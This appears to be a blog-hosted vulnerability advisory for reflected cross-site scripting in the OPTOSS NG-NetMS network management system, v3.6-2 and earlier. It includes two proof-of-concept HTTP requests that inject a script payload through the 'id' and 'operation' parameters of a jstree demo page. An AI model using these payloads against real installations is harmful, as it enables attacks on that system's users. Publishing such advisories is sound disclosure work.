 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: OPT/NET BV

Product: OPTOSS Next Gen Network Management System (NG-NetMS)

Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE ID: CVE-2019-xxxx
* CWE ID: CWE-79

#### #Proof of Concept

Multiple reflected cross-site scripting (XSS) vulnerabilities were discovered in the product.

A cross-site scripting vulnerability was identified on the /js/libs/jstree/demo/filebrowser/index.php page. The “id” and “operation” GET parameters can be used to inject arbitrary JavaScript which is returned in the page's response.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### Request:
{% highlight ruby %}
POC 1:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23'<script >prompt('xss')</script>&operation=get_node HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

POC 2:

GET /js/libs/jstree/demo/filebrowser/index.php?id=%23&operation=get_node'<script >prompt('xss')</script> HTTP/1.1
Referer: http://a.b.c.d:80/index.php?r=site/login
Cookie: PHPSESSID=p4j7rspfhqhpu5duj60um2gaq1
Host: a.b.c.d
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://opt-net.eu/products/optoss-ng-netms
3. https://sourceforge.net/projects/ngnms/
